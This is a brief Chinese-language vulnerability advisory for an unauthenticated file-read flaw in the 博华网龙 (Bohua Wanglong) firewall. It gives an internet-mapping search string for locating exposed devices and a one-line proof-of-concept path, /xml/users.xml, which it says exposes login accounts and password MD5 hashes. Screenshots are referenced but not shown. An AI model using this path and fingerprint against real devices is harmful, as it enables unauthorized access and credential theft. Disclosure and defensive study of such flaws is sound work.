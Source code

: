 # 博华网龙防火墙 users.xml 未授权访问

## 漏洞描述

博华网龙防火墙 users.xml文件 可被任意用户读取，其中包含登录的账号密码

## 漏洞影响

```
博华网龙防火墙
```

## 网络测绘

```
"博华网龙防火墙"
```

## 漏洞复现

登录页面

![img](images/202202162248506.png)

验证POC, 读取配置文件获取密码的Md5

```php
/xml/users.xml
```

![img](images/202202162248359.png)